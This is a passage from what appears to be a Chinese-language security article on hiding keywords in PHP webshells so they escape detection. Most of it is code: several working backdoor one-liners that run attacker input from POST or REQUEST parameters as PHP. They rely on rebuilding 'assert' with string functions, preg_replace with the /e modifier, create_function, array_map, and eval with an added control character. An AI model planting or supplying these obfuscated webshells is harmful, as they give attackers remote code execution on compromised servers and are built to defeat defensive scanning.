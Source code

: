 ```
?>
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-dab109da-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-dab109da-864e-1.png)

#### 隐藏关键字

利用 PHP 的一些函数进行重组、拆分等  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-dad3ea54-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-dad3ea54-864e-1.png)

**利用数组**

```
<?php
    $a = substr_replace("assexx","rt",4);
    $b=[''=>$a($_POST['a'])];
?>
```

**利用函数**

```
<?php
function func(){
return $_REQUEST['x'];
}
preg_replace("/hello/e",func(),"hello");
?>
```

加上 / e 可以当作 PHP 代码进行解析，测试在 5.6 版本下可以使用

除此之外，例如 create_function 函数，用来创建匿名函数

```
<?php 
$a = create_function('',$_POST['a']);
$a();
?>
```

利用 array_map 函数

```
<?php array_map("ass\x65rt",(array)$_REQUEST['a']);?>
```

**利用特殊字符**

```
<?php
    $a = $_POST['a'];
    $b = "\r";
    eval($b.=$a);
?>
#\r\n\t都可以
```
